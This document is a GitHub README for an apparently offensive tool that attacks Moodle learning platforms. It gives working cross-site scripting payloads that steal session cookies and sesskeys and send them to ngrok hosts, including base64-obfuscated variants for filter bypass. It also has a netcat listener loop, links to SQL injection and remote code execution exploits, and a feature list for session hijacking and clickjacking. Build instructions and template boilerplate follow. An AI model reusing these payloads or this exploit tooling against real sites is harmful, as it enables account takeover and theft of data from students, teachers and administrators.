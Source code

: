 # toodlemoodle

TODO: Write a description here

## Installation

TODO: Write installation instructions here

## Usage

TODO: Write usage instructions here
Thanks moodle for giving code to pwn self:
https://docs.moodle.org/dev/Security:Cross-site_scripting
while true; do nc -l 9999; done

My cookie stealer:
<script>alert('xss');document.write('<img src="https://668da81e.ngrok.io/?cookie=' + document.cookie + '" />')</script>

<script>document.write('<img src="https://5fc418e2.ngrok.io/?session=' + document.cookie.match(new RegExp('(^| )MoodleSession=([^;]+)'))[2] + "&sesskey=" + M.cfg.sesskey + "&id=" + document.querySelectorAll('[data-userid]')[0].getAttribute("data-userid") + '" />')</script>

https://blog.innerht.ml/tag/clickjacking/ good demo of a button that follows the mouse.

https://moodle.org/mod/forum/discuss.php?d=384010 3.6 login as, hijack admin account

https://www.cvedetails.com/cve/CVE-2018-1045/ 3.3.4 XSS in calendar event name

https://moodle.org/mod/forum/discuss.php?d=345915 3.2.1 xss via url

POC:
http://localhost/mod/assign/view.php?id=2&action=view"onload="document.body.appendChild(document.createElement('img')).src=('https://5fc418e2.ngrok.io/?session='.concat(document.cookie,'|',M.cfg.sesskey))

Encode payload in base64 then: 

"onload="eval(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))

or if eval is filtered:

"onload="new Function(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))()

https://moodle.org/mod/forum/discuss.php?d=381230 3.6 could use a clickhijack to self

https://moodle.org/mod/forum/discuss.php?d=384011 3.6 (fresh!) enum events

https://www.cvedetails.com/cve/CVE-2017-2641/ used by exploit below

https://www.exploit-db.com/exploits/41828 3.2.1 SQL injection

https://www.exploit-db.com/exploits/46551 3.4.1 RCE, CVE below

https://www.cvedetails.com/cve/CVE-2018-1133/ 3.4.2 remote code exec for teacher "Calculated question"

fresher:

https://www.cvedetails.com/cve/CVE-2018-14630/ 3.5.2 remote code exec for (teacher?) "quiz import"

Features:
1. scan: detect version (working!), suggest supported exploits
2. view calendar events bypass
3. exploit quiz import and calculated question vulns
4. exploit 2018-1133 RCE
5. exploit 2017-2641 SQL injection (via user pref) (generate sqlmap command)
6. add xss to account dashboard, generate clickjacker, using CVE-2019-3810 or CVE-2019-3847 to hijack session
7. add xss to calendar, generate link for victim to click and steal sesh

## Development

TODO: Write development instructions here
Make sure you have crystal & openssl installed. For MacOs, run
```
brew install crystal openssl
```

It is critical to compile this project, that you add the following lines to your bash_profile or zshrc:
```
export PKG_CONFIG_PATH="/usr/local/opt/openssl/lib/pkgconfig:$PKG_CONFIG_PATH"
export LDFLAGS="-L/usr/local/opt/libffi/lib -L/usr/local/opt/openssl/lib -L/usr/local/opt/llvm@6/lib -Wl,-rpath,/usr/local/opt/llvm@6/lib -L/usr/local/opt/llvm@6/lib $LDFLAGS"
export CPPFLAGS="-I/usr/local/opt/openssl/include -I/usr/local/opt/llvm@6/include $CPPFLAGS"
```

This adds LLVM, LibFFI, and OpenSSL to your compiler flags.

Now you can run this project (this will compile the project, hence the long startup time): 
```
crystal run src/toodlemoodle.cr
```

You can also build an executable:
```
crystal build src/toodlemoodle.cr
```
Use the  --release flag for an optimized production build.

## Contributing

1. Fork it (<https://github.com/your-github-user/toodlemoodle/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [Claudio Spiess](https://github.com/your-github-user) - creator and maintainer
